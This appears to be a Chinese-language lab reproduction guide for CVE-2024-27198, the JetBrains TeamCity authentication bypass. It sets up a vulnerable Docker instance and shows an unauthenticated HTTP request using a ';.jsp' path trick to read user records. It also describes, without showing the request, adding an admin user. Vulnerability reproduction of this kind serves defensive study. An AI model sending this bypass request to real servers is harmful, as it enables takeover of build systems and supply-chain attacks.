





# CVE-2024-27198 JetBrains TeamCity 身份验证绕过

JetBrains TeamCity是一款由JetBrains开发的持续集成和持续交付(CI/CD)服务器。它提供了一个功能强大的平台，用于自动化构建、测试和部署软件项目。TeamCity旨在简化团队协作和软件交付流程，提高开发团队的效率和产品质量。jetBrains TeamCity发布新版本修复了两个高危漏洞JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)与JetBrains TeamCity 路径遍历漏洞(CVE-2024-27199)。未经身份验证的远程攻击者利用CVE-2024-27198可以绕过系统身份验证，创建管理员账户，完全控制所有TeamCity项目、构建、代理和构件，为攻击者执行供应链攻击。远程攻击者利用该漏洞能够绕过身份认证在系统上执行任意代码。


项目官网下载地址https://www.jetbrains.com/teamcity/download/other.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-27198
- https://www.jetbrains.com/privacy-security/issues-fixed/
- https://blog.csdn.net/shelter1234567/article/details/136542760

## 漏洞环境

执行如下命令启动一个teamcity-server:2023.11.3服务：

```
docker compose up 
```


服务启动后，可访问`http://your-ip:8111/`将自动跳转到teamcity安装向导界面




1，Proceed

2，选择interanl数据库 --- proceed



3，创建一个管理员账号




## 漏洞复现

1，接口未授权访问查看用户信息

```
GET /xxx?jsp=/app/rest/users/;.jsp HTTP/1.1
Host: 192.168.116.128:8111
Content-Length: 2
```



2，接口未授权添加管理员用户shelter



验证管理员用户shelter是否存在

